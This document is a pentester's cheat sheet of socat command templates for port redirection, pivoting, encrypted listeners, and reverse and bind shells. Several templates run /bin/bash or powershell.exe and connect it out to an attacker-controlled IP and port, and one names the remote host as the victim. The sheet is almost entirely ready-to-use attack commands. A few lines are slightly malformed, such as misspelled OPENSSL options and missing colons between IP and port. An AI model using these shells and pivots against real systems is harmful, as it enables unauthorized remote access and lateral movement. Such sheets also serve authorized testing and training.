 # socat

% socat
#plateform/linux  #target/remote  #cat/PIVOT 

## local port redirection (pivot)
```bash
socat TCP4-LISTEN:<listen_port>,fork,reuseaddr TCP4:<redirection_ip|localhost>:<redirection_port>
```
## local port redirection to file
```bash
socat TCP4-LISTEN:<listen_port>,fork,reuseaddr OPEN:<file_path>,creat,append
```

## local port redirection to socket
```bash
socat TCP4-LISTEN:<listen_port>,fork,reuseaddr UNIX-CONNECT:<socket_path>
```

## reverse shell - callee
file:`tty`,raw,echo=0
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt
cat <cert>.key <cert>.crt L > <cert>.pem 
encrypted: OPENSSl-LISTEN:<local_port>,cert=<cert>.pem,verify=0,fork
```bash
socat TCP4-LISTEN:<listen_port> STDOUT
```

## reverse shell - callee (2)
file:`tty`,raw,echo=0
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt
cat <cert>.key <cert>.crt L > <cert>.pem 
encrypted: OPENSSl-LISTEN:<local_port>,cert=<cert>.pem,verify=0,fork
```bash
socat file:`tty`,raw,echo=0 tcp-listen:<listen_port>
```


## reverse shell - caller (linux)
encrypted: OPENSSL:<local_ip><local_port>,verify=0
```bash
socat TCP4:<local_ip><local_port> EXEC:/bin/bash
```


## reverse shell - caller (linux) (2)
encrypted: OPENSSL:<local_ip><local_port>,verify=0
```bash
socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane TCP4:<local_ip><local_port>
```

## reverse shell - caller (windows)
encrypted: OPENSSL:<local_ip><local_port>,verify=0
```bash
socat TCP4:<local_ip><local_port> EXEC:'powershell.exe',pipes
```


## bind shell - caller 
encrypted: OPENSSl:<remote_ip>:<remote_port>,verify=0
```bash
socat - TCP4:<remote_ip>:<remote_port>
```

## bind shell - callee (linux)
openssl req -newkey rsa:2048 -nodes -keyout <cert>.key -x509 -days 1000 -subject '/CN=jubeaz' -out <cert>.crt
cat <cert>.key <cert>.crt L > <cert>.pem 
encrypted: OPENSSl-LISTEN:<local_port>,cert=<cert>.pem,verify=0,fork
```bash
socat TCP4-LISTEN:<local_port> EXEC:/bin/bash
```

## bind shell - callee (windows)

encrypted: OPENSSl-LISTEN:<local_port>, cert=<cert>.pem,verify=0,fork
```bash
socat TCP4-LISTEN:<local_port> EXEC:'powershell.exe',pipes
```



## socat port forwarding listener (on local machine)
```
./socat TCP-LISTEN:<port_listener|4444>,fork,reuseaddr TCP-LISTEN:<port_to_forward>
```

## socat port forwarding connect (on remote machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP:<connect_ip>:<connect_port|4444> TCP:127.0.0.1:<port_to_forward>
```

## socat reverse shell (remote victime)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listner_ip>:<listner_port|4444>
```

## socat reverse shell listener (local)
#plateform/linux  #target/remote  #cat/PIVOT 
```
socat file:`tty`,raw,echo=0 tcp-listen:<listner_port|4444>
```

